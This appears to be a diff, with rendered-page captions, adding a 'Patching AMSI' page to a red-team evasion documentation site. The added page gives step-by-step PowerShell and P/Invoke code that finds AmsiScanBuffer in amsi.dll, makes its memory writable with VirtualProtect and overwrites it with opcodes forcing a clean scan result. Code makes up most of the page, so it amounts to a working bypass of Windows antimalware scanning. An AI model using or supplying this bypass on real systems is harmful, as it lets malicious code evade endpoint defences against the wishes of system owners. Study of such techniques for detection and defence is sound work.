

Before and after one commit to tymyrddin/red-evasion, a Sphinx documentation site: the page built from source/docs/runtime/patching.md, in a window 1280 px wide and 1400 px high, scrolled down 198 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/runtime/patching.md
+++ b/source/docs/runtime/patching.md
@@ -1 +1,96 @@
 # Patching AMSI
+
+AMSI is primarily instrumented and loaded from `amsi.dll`. This `dll` can be abused and forced to point to a specific
+response code. The `AmsiScanBuffer` function provides the hooks and functionality necessary to access the
+pointer/buffer for the response code.
+
+`AmsiScanBuffer` is vulnerable because `amsi.dll` is loaded into the `PowerShell` process at startup. It will
+scan a "buffer" of suspected code and report it to `amsi.dll` to determine the response. This function can be
+controlled to overwrite the buffer with a clean return code.
+
+At a high-level AMSI patching can be broken up into four steps:
+
+* Obtain handle of `amsi.dll`
+* Get process address of `AmsiScanBuffer`
+* Modify memory protections of `AmsiScanBuffer`
+* Write opcodes to `AmsiScanBuffer`
+
+## Code
+
+Load GetProcAddress, GetModuleHandle, and VirtualProtect from kernel32 using p/invoke:
+
+```text
+[DllImport(`"kernel32`")] // Import DLL where API call is stored
+public static extern IntPtr GetProcAddress( // API Call to import
+	IntPtr hModule, // Handle to DLL module
+	string procName // function or variable to obtain
+);
+
+[DllImport(`"kernel32`")]
+public static extern IntPtr GetModuleHandle(
+	string lpModuleName // Module to obtain handle
+);
+
+[DllImport(`"kernel32`")]
+public static extern bool VirtualProtect(
+	IntPtr lpAddress, // Address of region to modify
+	UIntPtr dwSize, // Size of region
+	uint flNewProtect, // Memory protection options
+	out uint lpflOldProtect // Pointer to store previous protection options
+);
+```
+
+Load the API calls using `Add-Type`. This cmdlet will load the functions with a proper type and namespace that will
+allow the functions to be called.
+
+    $Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
+
+Identify the process handle of AMSI using `GetModuleHandle`. The handle will then be used to identify the process
+address of `AmsiScanBuffer` using `GetProcAddress`:
+
+    $handle = [Win32.Kernel32]::GetModuleHandle(
+        'amsi.dll' // Obtains handle to amsi.dll
+    );
+    [IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
+        $handle, // Handle of amsi.dll
+        'AmsiScanBuffer' // API call to obtain
+    );
+
+Modify the memory protection of the `AmsiScanBuffer` process region. Specify parameters and the buffer address for
+`VirtualProtect`:
+
+```text
+[UInt32]$Size = 0x5; // Size of region
+[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
+[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
+[Win32.Kernel32]::VirtualProtect(
+	$BufferAddress, // Point to AmsiScanBuffer
+	$Size, // Size of region
+	$ProtectFlag, // Enables R or RW access to region
+	[Ref]$OldProtectFlag // Pointer to store old options
+);
+```
+
+Specify what to overwrite the buffer with:
+
+```text
+$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);
+
+[system.runtime.interopservices.marshal]::copy(
+	$buf, // Opcodes/array to write
+	0, // Where to start copying in source array
+	$BufferAddress, // Where to write (AsmiScanBuffer)
+	6 // Number of elements/opcodes to write
+);
+```
+
+## Resources
+
+* [The Rise and Fall of AMSI - Black Hat Briefings](https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf)
+* [Rasta Mouse: Memory Patching AMSI Bypass](https://rastamouse.me/memory-patching-amsi-bypass/)
+* [rasta-mouse/AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)
+* [Marshal.Copy Method](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-6.0)
+* [Platform Invoke (P/Invoke)](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke)
+* [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)
+* [GetModuleHandle](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)
+* [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)
````
Also changed, not shown: source/docs/runtime/amsi.md (+1 -0 lines).
